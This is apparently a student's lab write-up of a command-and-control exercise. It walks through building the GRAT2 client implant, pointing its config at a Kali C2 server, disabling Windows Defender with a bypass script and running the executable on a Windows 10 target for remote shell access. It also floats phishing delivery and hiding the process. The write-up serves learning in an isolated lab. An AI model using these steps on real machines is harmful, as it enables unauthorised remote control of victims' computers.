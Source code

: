 ## Command and Control exercise 1 

This is an exercise presented to me by a mentor which I've recreated to gain an intro in malware propagation and transition.

---
### Environment
This exercise was performed by having both the attack and target machine within the same network.
#### Operating System
Latest kali-VM rolling update (Red)
Windows10 up to date (Red)
Windows 10 up to date (Blue)
#### Tools
GRAT2 - C&C (source: https://github.com/r3nhat/GRAT2)
Bypass-Windows-Defender-VBS (Optional) (source: https://github.com/NYAN-x-CAT/Bypass-Windows-Defender-VBS/security)
Visual Studio 2022 (Community)

---
### Methodology
#### Objectives/Flags
Establish a C&C server on the Kali, Build malware on the Win10(Red) and            propagate the executable to the target Win10(Blue).
#### Reconnaissance
N/A
#### Weaponization 
The first step was to setup up `Visual Studio (2022 Community edition)` on the Win10 (Red) where the client executable will be built. Once installed it was just a matter of installing the necessary addons that would allow projects to be built. This was a struggle as I haven’t had exposure to this IDE and program development. The best way I could describe it was just ensuring I installed the latest dot.Net SDK frameworks (This was mostly done through trial and error of trying to build the executable and working with the errors to find out what was missing)

Once I downloaded and unzipped out the GRAT2 package, I opened `GRAT2_client.sln`. This as I understand it is the project file where we will then open the sub files to configure. My next task was to set the project to point towards my GRAT2 server which will be hosted on the kali.

On the kali I grabbed the local IPv4 address.
```
ifconfig
	192.168.xxx.xxx
```

From there I needed to install the necessary before we get started.
```
pip3 install -r ~/GRAT2-C&C/GRAT2-master/requirements.txt
```

Now we can launch the server on port 80
```
cd ~/GRAT2-C&C/GRAT2-master/GRAT2_Server
	python3 grat2.py 80
```
The server was now up and running and listening for incoming connections.

Moving back to the Win10(Red) we opened Config.cs and modified the control-server address on line 9.
```
~\GRAT2-master\GRAT2_Client
	c2 = "http://192.168.xxx.xxx/"

```
Now the executable was ready to build however I encountered two errors during this process. Firstly, I was receiving an error related to the target dot.NET framework which was expecting an earlier version that what was currently installed. In order remediate this error I needed to find what version I was using and retarget the project to use that later version.
The steps I used to find my version of the framework can be found here: https://www.windowscentral.com/how-quickly-check-net-framework-version-windows-10
Now that I found my version, I retargeted the version in the `GRAT2_Cient.csproj`
```
<TargetFrameworkVersion>vX.X</TargetFrameworkVersion>
```
Lastly before I could the project, I needed to disable Windows defender as it was picking up the executable's malicious code. I was pointed towards using the `Bypass-Windows-Defender-VBS` which I mentioned earlier to turn it all off. This however wasn't enough and when I built the project, I needed to specifically allow the executable past defender.
Once the executable was successfully built, I found it here: `~\GRAT2-master\GRAT2_Client\bin\Debug\GRAT2_Client.exe

#### Delivery
I kept it simple for my first attempt at this exercise simply by coping over the executable from the Win10(Red) to the Win10(Blue), however in future I'd like to experiment different delivery techniques such as having it hosted on a HTTP server running on the kali where I then use phishing to have the target get and run the file on the target machine.

#### Exploitation
N/A
#### Installation 
N/A
#### Command & Control
Once the executable is run on the target machine a blank black console appears which creates a connection to the Grat2 server running on Kali. This can be seen on the Kali as a notice that `hostname` has connected. I imagine this console window can be manipulated to remain hidden and run in the background, possibly under disguised service processes.
#### Actions on Objective
From here we can begin to explore and manipulate the target machine with shell access.
From the Grat2 server:
```
listagents
	help
```
---
### After-action
#### What I've learned
This was the first exposure I've had to a command & control tool. It was a bit of a struggle to get Visual Studio working properly to build it out but once figured out it worked as intended. The code itself was a bit too complex for me to understand immediately but I took away the concept of how a server is run and how a target can be connected to it.
#### What I would've done differently
If I was to come back to this exercise I would like to expand upon the attack-chain to deliver the .exe from my attack machine to the target. Additionally, I would like to find ways to experiment with ways to hide the running executable from users and expand upon the actions on objectives to gain more control/visibility over the target's network. 

